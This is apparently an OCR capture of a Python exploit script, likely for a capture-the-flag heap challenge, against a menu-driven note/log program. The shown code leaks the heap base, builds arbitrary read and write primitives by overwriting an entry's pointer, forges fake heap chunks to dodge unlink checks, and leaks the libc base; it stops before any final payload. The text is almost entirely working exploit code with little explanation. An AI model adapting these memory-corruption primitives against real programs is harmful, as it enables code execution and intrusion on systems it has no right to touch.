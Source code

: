 ```python

def my_show(idx):
    p.sendlineafter(b"> ", b'3')
    p.sendlineafter(b"idx: ", idx)
    return p.recvuntil(b"1. new\n")

def my_delete(idx):
    p.sendlineafter(b"> ", b'2')
    p.sendlineafter(b"idx: ", idx)

def my_bye():
    p.sendlineafter(b"> ", b'5')

def leak_heap_addr():
    global heap_base
    init(b"1", b"")

    my_new(b"0", b"0", b"")
    tmp = my_show(b"0")
    
    # leak heap base
    idx = tmp.index(b"msg: ") + 5
    heap_base = u64(tmp[idx: idx+6].ljust(8, b"\x00")) - 3632
    print("heap_base: ", hex(heap_base))

def init_primitives():
    my_new(b"1", str(0x60).encode(), b"1")
    my_new(b"2", str(0x60).encode(), b"1")

    my_delete(b"0")
    my_new(b"0", str(0x60).encode(), b"1")
    my_edit(b"7", b"")
    my_edit(b"0", b"A" * 0x7)

def write_primitives(addr, data):
    print(f"write {binascii.hexlify(data).decode()} to {hex(addr)}")
    my_edit(b"7", p64(addr) + p64(0) + b"a" * 7)
    my_edit(b"0", data)

def read_primitives(addr):
    print(f"read from {hex(addr)}")
    my_edit(b"7", p64(addr) + p64(0) + b"a" * 7)
    return my_show(b"0")

def leak_libc_addr():
    global libc_base
    my_new(b"3", b"80", b"1")
    # &logs[3]->msg == heap_base + 672
    print(f"leak libc address from {hex(heap_base + 672)}")
    target = heap_base + 672 - 8
    write_primitives(target, p64(1072+1))

    # to avoid unlink in free, we have to contruct two fake chunks after &logs[3]->msg
    write_primitives(target - 8 + 1072 + 8, p64(0x20+1))
    write_primitives(target - 8 + 1072 + 8 + 0x20, p64(0x20+1))
    
    my_delete(b"3")

    # leak libc base
    tmp = read_primitives(target + 8)
    idx = tmp.index(b"msg: ") + 5
    libc_base = u64(tmp[idx: idx+6].ljust(8, b"\x00")) - 2014176
    print("libc base: ",hex(libc_base))
```